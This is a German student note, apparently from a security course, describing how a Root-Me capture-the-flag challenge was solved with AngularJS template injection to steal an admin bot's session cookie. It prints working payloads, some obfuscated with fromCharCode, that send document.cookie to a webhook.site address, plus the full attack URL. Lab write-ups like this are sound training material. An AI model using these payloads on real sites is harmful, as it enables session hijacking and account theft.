

repository: IamNico42/portfolio · page: studium/IT-Security/IT-Security-XSS/index.html · generator: mkdocs

---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - IT-Security
tags:
  - Course/IT-Security
  - Semester-5
  - Informatik
---

## Challenge-Ziel

**Ziel:** Die Session-Cookies des Admin-Bots stehlen, indem eine AngularJS Template Injection ausgenutzt wird, um den Admin auf eine eigene Webhook-URL umzuleiten.

## Was nicht funktioniert hat

### 1. Direkte Nutzung von `document.cookie`
- **Versuch:** Einfache Payloads wie:

```Javascript
{{constructor.constructor('document.location="https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4?c="+document.cookie')()}}
```

und umgewandelt in:

```
http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7B%27a%27.constructor.prototype.charAt.constructor%28%27location%3D%22https%3A%2F%2Fwebhook.site%2F617db51b-f86d-4a0b-9234-193fadfd4ce4%3Fc%3D%22%2Bdocument.cookie%27%29%28%29%7D%7D
```

- **Ergebnis:** Keine Fehlermeldung, aber es wurden keine Cookies an den Webhook gesendet.
- **Grund:** Die Session-Cookies sind mit dem `HttpOnly`-Flag versehen, wodurch sie für JavaScript nicht zugänglich sind.
    

### 2. **Selbsttest im eigenen Browser**
- **Versuch:** Den Payload im eigenen Browser ausführen.
- **Ergebnis:** Keine Cookies wurden an den Webhook gesendet.
- **Grund:** Moderne Browser schützen `HttpOnly`-Cookies vor JavaScript-Zugriff, selbst wenn der Payload korrekt ist.

## Was funktioniert hat
### 1. **Verwendung von `fromCharCode` zur Umgehung von Filtern**
### Schritt 1: Deinen String in ASCII-Codes umwandeln

Der umzuwandelnde String:

`location.href='https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4?c='+document.cookie`

Hier dein fertiges **fromCharCode()-Array**:
```javascript
108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101
```
###  fertiger Payload:

```javascript
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))()}}
```

### Komplett fertige URL zum Absenden (für dein Contact-Formular):

**NICHT ENCODED:**

```
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,54,49,55,100,98,53,49,98,45,102,56,54,100,45,52,97,48,98,45,57,50,51,52,45,49,57,51,102,97,100,102,100,52,99,101,52,63,99,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))()}}
```

### Wichtig:

Webhook `https://webhook.site/617db51b-f86d-4a0b-9234-193fadfd4ce4` wird angesprochen.

`?c=` wird ans Ende gehängt, damit dein Cookie auch ankommt.

Verschleierung über `fromCharCode`, damit der Adminbot es schwerer hat, den Angriff zu erkennen.
